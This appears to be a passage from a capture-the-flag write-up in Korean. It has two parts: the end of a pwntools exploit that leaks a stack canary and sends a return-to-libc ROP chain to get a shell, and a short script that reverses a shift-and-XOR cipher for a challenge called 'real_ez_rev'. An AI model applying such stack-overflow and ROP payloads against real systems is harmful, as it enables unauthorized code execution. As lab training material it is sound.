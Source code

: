 ```python
print(libc_base)

p.sendlineafter(b"> ", b"7274")

payload = b"B" * 0x18
payload += p64(canary)
payload += p64(0xAAAAAAAA)
payload += p64(libc_base + 0x023B6A + 1)
payload += p64(libc_base + 0x023B6A)
payload += p64(libc_base + 0x1B45BD)
payload += p64(libc_base + 0x052290)

p.sendlineafter(b"titan :", payload)
p.interactive()

```

---
# real_ez_rev
- 그냥 이전에 나온 로직 그대로 역산하면 됨

```python
def shift_right(text, num):
    a = text[-num:]
    b = text[:-num]
    return a + b


def shift_left(text, num):
    a = text[:num]
    b = text[num:]
    return b + a


def xor_with_key(text, key):
    text_bytes = text.encode()
    key_bytes = key.encode()

    result = bytearray(len(text_bytes))

    for i in range(len(text_bytes)):
        result[i] = text_bytes[i] ^ key_bytes[i % len(key_bytes)]

    return result.decode()


if __name__ == "__main__":
    cipher = "xz|elcfa~rfaoi{ykfzpdlxba"
    key = "qksrkqs"

    cipher = shift_left(cipher, 3)
    print(cipher)
    cipher = xor_with_key(cipher, key)
    print(cipher)
    cipher = shift_right(cipher, 3)
    print(cipher)
    cipher = xor_with_key(cipher, key)
    print(cipher)
    cipher = shift_left(cipher, 3)
    print(cipher)

```
